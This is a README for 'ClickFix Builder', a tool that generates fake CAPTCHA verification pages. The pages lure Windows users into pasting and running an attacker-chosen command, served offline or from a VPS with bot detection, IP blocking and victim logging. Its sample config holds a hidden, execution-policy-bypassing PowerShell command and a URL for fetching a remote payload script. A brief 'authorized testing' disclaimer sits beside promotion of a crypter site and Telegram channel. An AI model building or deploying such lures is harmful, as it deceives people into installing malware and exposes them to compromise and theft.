




# 🔒 ClickFix Builder v1.1.0 – Dual‑Mode Social Engineering Toolkit

[](https://python.org)


---

## 🧠 What is ClickFix Builder?

ClickFix Builder is a professional‑grade tool for **red teamers, pentesters, and security researchers**.  
It generates realistic fake captcha technique to execute a malware command
into windows target 
The builder supports **two deployment modes**:

| Mode | Description |
|------|-------------|
| 📦 **Portable File** | Single HTML/JS file that works offline |
| 🌐 **VPS Deploy** | HTTP server with logging, blocking, and monitoring |

---

## ✨ Features

### 🎯 Core Functionality
- Clipboard interaction target
- Fully customizable command/payload
- Base64 encoding support
- Dark-mode GUI (PyQt6)

### 📦 Portable Mode
- Generates:
  - `stub.js`
  - `index.html`
  - `payload.html`
- Works offline
- Easy distribution/testing

### 🌐 VPS Mode (Real‑time)
- Built-in Python HTTP server
- IP blocking:
  - Single IP
  - CIDR ranges
  - Dash ranges
- Bot detection
- Live request logging
- Manual blocking via GUI
- Rule file support

### 📊 Monitoring & Reporting
- Real-time stats
- Auto-refresh HTML reports
- Stored in:~/StubBuilder_Reports/


---

## 🖥️ Screenshots

### Build Center


### VPS Control


### Live Report


## 🎥 Demo Video

[](https://t.me/burnwpcommunity/12975)
---

## 🚀 Quick Start

### 1. Installation

```
git clone https://github.com/drcrypterdotru/clickfix-builder.git
cd clickfix-builder
pip install -r requirements.txt
python ClickFix_Builder.py 

Requirements
Python 3.8+
PyQt6
pip install PyQt6
```

------

### 2. Build your first payload
```
Launch the app
Enter your command
(Optional) Enable Base64 mode
Click BUILD PORTABLE FILES
```

### Output:
```
payload.html (main file)
index.html
stub.js
```

### 3. Deploy on VPS
```
Switch to VPS Deploy mode
Configure rules (optional)
Click START VPS SERVER

Access: http://your-vps-ip:8080
```
---
### ⚙️ Configuration
```
All settings can be saved as JSON.

Example config.json
{
  "command": "powershell -ExecutionPolicy Bypass -w hidden -c \"...\"",
  "custom_url_execute": "http://example.com/payload.ps1",
  "blocking": {
    "enabled": true,
    "rules": [
      "192.168.1.100",
      "10.0.0.0/24",
      "172.16.1.1-172.16.1.50"
    ],
    "file": ""
  },
  "server": {
    "host": "0.0.0.0",
    "port": 8080
  }
}
```
---

# 🛡️ Legal & Ethical Use

### ⚠️ Important

This tool is intended for:

- Authorized security testing  
- Red team exercises  
- Educational research  

❌ **Do NOT use without permission.**

---

### 📝 How It Works

- UI mimics verification flow  
- User interaction triggers scripted behavior  
- Command execution occurs in your target
- VPS mode logs all activity  
- Reports generated in real-time  

---

### 🧪 Testing & Debugging

Use **GUI System Log**  

Check reports at:

------

🌐 Community & Resources
<div align="center"> <a href="https://t.me/burnwpcommunity">  </a>

### Join Telegram
https://t.me/burnwpcommunity

<br/><br/>

<a href="https://drcrypter.ru">  </a>

### Website
https://drcrypter.ru

Tools, updates, and community resources.

</div>


---

## If you find this useful: 👉 Star the repository

---

## ⚠️ Disclaimer
This tool is for educational purposes only. 🏫 The creator and contributors are not responsible for any misuse or damages caused. Use responsibly, and only on systems you own or have permission for. ✅

